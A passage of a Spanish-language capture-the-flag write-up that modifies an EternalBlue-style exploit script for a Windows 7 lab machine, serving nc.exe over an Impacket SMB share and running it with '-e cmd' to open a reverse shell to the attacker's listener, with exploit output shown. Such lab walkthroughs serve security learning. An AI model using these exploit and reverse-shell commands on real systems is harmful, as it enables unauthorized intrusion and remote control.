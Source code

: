 <br>

Ahora, modificaremos un poco el script para que podamos cargar y ejecutar una **netcat** dentro de la máquina víctima, entonces necesitaremos una netcat que se pueda ejecutar en Windows y activar recursos compartidos a nivel de red con **Impacket** para cargar la **netcat**, hagamoslo por pasos:

* Modificando el script:
```bash
USERNAME = 'guest'
.
ANTES: service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
DESPUES: service_exec(conn, r'cmd /c C:\Tu_IP\smbFolder\nc.exe -e cmd Tu_IP 443')
```

* Buscando y descargando **netcat**:
```bash
locate nc.exe
.
cp cp /usr/share/windows-resources/binaries/nc.exe .
```
**NOTA**: La **netcat** debe ser para arquitectura de **64 bits**, pues esta es la arquitectura que maneja la máquina. Por lo que se, Kali ya cuenta con uno en sus binarios de windows, pero puedes descargar una desde internet por si las dudas: <a href="https://eternallybored.org/misc/netcat/" target="_blank">Netcat 32bits y 64bits</a>

* Abriendo un archivo compartido a nivel de red de nuestro directorio actual de trabajo (osease, donde tengamos la **nc.exe**) con **Impacket** y le damos soporte de **SMBv2** por si las dudas:
```bash
impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
.
[*] Config file parsed
[*] Callback added for ...
...
...
```

* Abriendo una **netcat** en nuestra máquina con **rlwrap**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

* Y activamos el script:
```bash
python2 zzz_exploit.py 10.10.10.40 samr
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa800332fba0
SESSION: 0xfffff8a0039a56e0
...
Done
```

